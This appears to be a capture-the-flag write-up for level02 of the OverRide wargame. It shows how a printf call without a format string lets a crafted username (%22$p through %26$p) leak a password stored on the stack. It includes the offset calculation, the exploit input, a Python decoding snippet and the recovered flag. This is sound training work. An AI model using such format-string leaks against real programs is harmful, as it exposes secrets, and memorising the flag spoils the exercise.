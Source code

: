 test first :
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: a
--[ Password: b
*****************************************
a does not have access!

it print out he username.

after analyzing the assembly, the local variable "buffer3" stores the 41 byte of password. since in " 0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt>"
it printf out without format, so we can use format vulnerable to give the value which stores in local stack.

which ?nd of stack?
since buffer3 is from at (RBP - 0xa0) 
(0x00000000004008e6 <+210>:   lea    -0xa0(%rbp),%rax) - 160 byte and 
total stack size Allocate is 0x120 - 288 bytes
Parameter offset to reach our buffer = (288 - 160) / 8 + 1 = 22
the length of flag is 40 charater, so we need to get 5 stacks,

lets try:
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password: 
*****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access! 

convert it to ascii in python:
```
hex_string = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d"
ascii_string = ''.join(part.decode('hex')[::-1] for part in hex_string.split('0x') if part)
print(ascii_string)
```

split('0x'):
- Splits the string into parts using 0x as the delimiter.
- This isolates each hexadecimal block.
decode('hex'):
- Converts each hexadecimal block into raw bytes.
[::-1]:
- Reverses the byte order (endian correction).
join():
- Combines all the decoded and reversed parts into a single ASCII string.



Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H